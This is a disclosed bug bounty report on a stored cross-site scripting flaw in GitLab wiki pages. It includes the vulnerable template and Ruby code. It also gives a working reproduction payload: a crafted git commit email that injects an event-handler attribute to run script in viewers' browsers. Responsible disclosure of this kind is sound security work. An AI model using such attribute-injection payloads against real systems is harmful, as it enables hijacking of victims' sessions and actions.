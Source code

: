 # Stored-XSS on wiki pages

## Report Details
- **Report ID**: 1087061
- **URL**: https://hackerone.com/reports/1087061
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-01-25T21:21:47.404Z
- **Disclosed**: 2021-07-13T08:35:54.633Z

## Reporter
- **Username**: yvvdwf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
Hello,

A Stored-XSS is existing on Wiki pages. It is caused by recent change in [show.html.haml#L10](https://gitlab.com/gitlab-org/gitlab/blob/3e543192b1179c79e0a44ae6f32648fa7155c10e/app/views/shared/wikis/show.html.haml#L10)

```ruby
       ... "<a href='#{@page.last_version.author_url}'>".html_safe ...
```

`author_url` is defined by committed email in [wiki_page_version.rb](https://gitlab.com/gitlab-org/gitlab/blob/3e543192b1179c79e0a44ae6f32648fa7155c10e/lib/gitlab/git/wiki_page_version.rb):

```ruby
     delegate :message, :sha, :id, :author_name, :author_email, :authored_date, to: :commit

      def author_url
        user = ::User.find_by_any_email(author_email)
        user.nil? ? "mailto:#{author_email}" : Gitlab::UrlBuilder.build(user)
      end
```

Since the `author_url`is considered as `safe`, attackers may inject any DOM attributes of `<a>` tag. 


### Steps to reproduce

1. Clone wiki repository of an existing project or a new one, for example: `git clone git@gl.local:root/test.wiki.git`
2. Go to inside `test.wiki` directory, then add the 3 following lines at then end of  `.git/config` file (if there exists `[user]` section in `.git/config`, then replace its section by the following lines):

```
[user]
	name = anyname
	email = "#' style=animation-name:blinking-dot onanimationstart=alert(document.domain) other"
```

3.  Modify/create any wiki page, for example: `echo "Hi" >> home.md`
4. Commit the modification and push it into gitlab server
5. Open the wiki page in Web browser,  http://gl.local/hi/test/-/wikis/home, you should see the alert

### Impact

XSS may allows attackers to perform any actions on behalf of victims at client side.


### What is the current *bug* behavior?

`author_url` is not sanitized

### What is the expected *correct* behavior?

`author_url`  should be sanitized

### Output of checks

#### Results of GitLab environment info

(For installations with omnibus-gitlab package run and paste the output of:
`sudo gitlab-rake gitlab:env:info`)

```
System:		Ubuntu 18.04
Proxy:		no
Current User:	git
Using RVM:	no
Ruby Version:	2.7.2p137
Gem Version:	3.1.4
Bundler Version:2.1.4
Rake Version:	13.0.3
Redis Version:	5.0.9
Git Version:	2.29.0
Sidekiq Version:5.2.9
Go Version:	unknown

GitLab information
Version:	13.8.0-ee
Revision:	1ae10d09692
Directory:	/opt/gitlab/embedded/service/gitlab-rails
DB Adapter:	PostgreSQL
DB Version:	12.4
URL:		http://gl.local
HTTP Clone URL:	http://gl.local/some-group/some-project.git
SSH Clone URL:	git@gl.local:some-group/some-project.git
Elasticsearch:	no
Geo:		no
Using LDAP:	no
Using Omniauth:	yes
Omniauth Providers: 

GitLab Shell
Version:	13.15.0
Repository storage paths:
- default: 	/var/opt/gitlab/git-data/repositories
GitLab Shell path:		/opt/gitlab/embedded/service/gitlab-shell
Git:		/opt/gitlab/embedded/bin/git
```

## Impact

XSS may allows attackers to perform any actions on behalf of victims at client side.

## Attachments
No attachments
